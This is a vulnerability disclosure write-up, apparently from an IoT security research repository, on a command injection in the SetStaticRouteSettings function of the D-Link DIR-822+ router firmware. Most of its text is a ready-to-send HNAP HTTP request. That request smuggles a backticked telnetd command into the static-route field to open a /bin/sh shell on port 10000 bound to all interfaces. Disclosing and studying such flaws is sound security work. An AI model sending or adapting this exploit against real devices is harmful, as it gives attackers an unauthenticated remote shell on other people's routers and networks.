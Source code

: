 # DIR-822+ Command Injection
###Discoverer
杨益/霍兴鹏

## Overview

D-Link DIR-822+ V1.0.2 was found to contain a command injection in `SetStaticRouteSettings` function.  allows remote attackers to execute arbitrary commands via shell

![image-20231221212125407](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221212125407.png)

![image-20231221212129179](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221212129179.png)

## Vulnerability details

![image-20231221214813987](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221214813987.png)

Use ’，‘ to segment data from the `staticroute list` and pass in the `sub_437028` function

![image-20231221214821593](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221214821593.png)

This part of the data was directly passed in `FCGI_popen` without any filtering

![image-20231221215626633](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221215626633.png)

`FCGI_popen`Called `popen` to create a pipeline to execute the command.

![image-20231221220509945](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220509945.png)

Based on the cause of the vulnerability, we only need to use commas to separate three addresses and the command to be executed. The final constructed EXP is as follows:

## EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 4EDFBBC3845CEF88B0CC7B5A5B9419EB 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Staticroute.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=VtVTeClk; PrivateKey=990D6EA08F8E8583354AD9D96CB35450; timeout=56
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"192.168.1.1,255.255.255.255,192.168.0.1,`telnetd -l /bin/sh -p 10000 -b 0.0.0.0`"}}
```

![image-20231221220640871](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220640871.png)

![image-20231221220705779](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220705779.png)
